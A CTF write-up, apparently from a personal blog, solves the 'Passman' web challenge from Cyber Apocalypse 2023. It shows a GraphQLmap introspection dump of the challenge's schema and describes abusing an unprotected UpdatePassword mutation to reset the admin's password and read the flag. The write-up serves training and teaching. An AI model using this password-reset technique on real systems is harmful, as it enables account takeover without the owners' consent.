 ```yaml
---
title: "Web"
date: 2023-01-26
layout: "simple"
tags: [ctf, cyberapocalypse23]
categories: [ctf]
---
```


### Passman

> **Name**: Passman
> 
> **Dificulty:** Easy
{: .prompt-info }

This one was a tricky one. I noticed that it was using graphql when I logged in, register registered a user. Not to familiar with this database but I used 2 things to help me understand how the database was setup. I used **[GraphlQLMap](https://github.com/swisskyrepo/GraphQLmap)** and **[Hacktricks GraphQL](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/graphql)**. This is the output of GraphqlMap: 

```bash 
solidshadw@pop-os:~/Downloads/web_passman$ graphqlmap -u "http://138.68.162.218:30735/graphql" --proxy http://127.0.0.1:8080
   _____                 _      ____  _                            
  / ____|               | |    / __ \| |                           
 | |  __ _ __ __ _ _ __ | |__ | |  | | |     _ __ ___   __ _ _ __  
 | | |_ | '__/ _` | '_ \| '_ \| |  | | |    | '_ ` _ \ / _` | '_ \ 
 | |__| | | | (_| | |_) | | | | |__| | |____| | | | | | (_| | |_) |
  \_____|_|  \__,_| .__/|_| |_|\___\_\______|_| |_| |_|\__,_| .__/ 
                  | |                                       | |    
                  |_|                                       |_|    
                              Author: @pentest_swissky Version: 1.1 
GraphQLmap > help
[+] dump_via_introspection : dump GraphQL schema (fragment+FullType)
[+] dump_via_fragment      : dump GraphQL schema (IntrospectionQuery)
[+] nosqli      : exploit a nosql injection inside a GraphQL query
[+] postgresqli : exploit a sql injection inside a GraphQL query
[+] mysqli      : exploit a sql injection inside a GraphQL query
[+] mssqli      : exploit a sql injection inside a GraphQL query
[+] exit        : gracefully exit the application
GraphQLmap > dump_via_introspection
============= [SCHEMA] ===============
e.g: name[Type]: arg (Type!)

00: Query
	getPhraseList[Phrases]: 
01: Phrases
	id[]: 
	owner[]: 
	type[]: 
	address[]: 
	username[]: 
	password[]: 
	note[]: 
04: Mutation
	RegisterUser[]: email (String!), username (String!), password (String!), 
	LoginUser[]: username (String!), password (String!), 
	UpdatePassword[]: username (String!), password (String!), 
	AddPhrase[]: recType (String!), recAddr (String!), recUser (String!), recPass (String!), recNote (String!), 
05: Response
	message[]: 
	token[]: 
07: __Schema
08: __Type
10: __Field
11: __InputValue
12: __EnumValue
13: __Directive
GraphQLmap > 
```

I'm passing it through my proxy, so that it inherits the session/cookies of the user I had created.

I tried to see if I could register over the admin user but got no luck. I then procedeed to uset the `UpdatePassword` mutation. This was the query I sent over with Burp.

![image](/assets/img/20230321221336.png)

I then saw "Password updated successfully". I changed the admins password. I then proceed to login and extracted the flag.

![image2](/assets/img/20230321221449.png)

```bash
HTB{1d0r5_4r3_s1mpl3_4nd_1mp4ctful!!}
```